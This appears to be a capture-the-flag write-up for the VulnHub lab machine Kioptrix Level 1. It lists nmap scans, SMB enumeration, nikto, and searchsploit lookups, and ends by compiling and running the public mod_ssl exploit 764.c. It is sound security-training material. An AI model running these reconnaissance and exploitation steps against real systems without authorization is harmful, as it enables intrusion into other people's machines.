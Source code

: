 # Kioptrix-Level-1

Author: Kioptrix
Web page: http://www.kioptrix.com/blog/?page_id=135

Download link: https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar

## Vulnhub machine writeup

1. Find target IP 

    command : **nmap -sn 192.168.122.0/24**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled.png)

### Scanning

  2.  nmap Full port scanning 

 command : **nmap -p- IP_address** 

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%201.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%201.png)

 3.  Open ports —> 22, 80, 111, 139, 443, 1024

 4.  nmap -sV -A --script vuln -p [all_ports] Ip_address

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%202.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%202.png)

### Enumeration

PORT - 139

 5. enum4linux IP_address 

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%203.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%203.png)

6.  Enumerating smb file shares

**smbclient -L Ip_address**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%204.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%204.png)

7. Share IPC or ADMIN 

**smbclient [//IP_address/IPC$](//ip_address/IPC$) -U**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%205.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%205.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%206.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%206.png)

8. **searchsploit samba | grep remote**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%207.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%207.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%208.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%208.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%209.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%209.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2010.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2010.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2011.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2011.png)

 PORT 80

Scanning website using nikto 

**nikto -h IP_address**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2012.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2012.png)

### Exploitation

Apache mod_ssl 2.8.4 is vulnerable

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2013.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2013.png)

**searchsploit mod_ssl**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2014.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2014.png)

**searchsploit -x exploit/unix/remote/764.c > 764.c**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2015.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2015.png)

**gcc 764.c -o 764**

**./764**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2016.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2016.png)

**./764 target host -c 42**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2017.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2017.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2018.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2018.png)
